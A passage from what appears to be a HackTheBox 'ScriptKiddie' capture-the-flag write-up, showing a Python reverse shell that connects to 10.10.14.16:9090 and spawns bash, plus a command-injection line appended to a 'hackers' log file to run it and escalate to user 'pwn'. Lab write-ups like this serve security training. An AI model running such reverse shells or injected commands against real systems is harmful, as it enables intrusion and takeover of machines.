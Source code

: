 ![ping](/assets/posts/ctf/hackthebox/machines/scriptkiddie/img/ping.png)
_Trigger ping locally_

Final reverse shell payload:

```bash
kid@scriptkiddie:~/logs$ cat /home/kid/html/rev.py 
import pty
import socket,os

s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.10.14.16",9090))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
pty.spawn("/bin/bash")
kid@scriptkiddie:~/logs$ echo "  ;/bin/bash -c 'python3 /home/kid/html/rev.py' #" >> hackers
```

![pwn](/assets/posts/ctf/hackthebox/machines/scriptkiddie/img/pwn.png)
_Escalated privilege to user `pwn`_
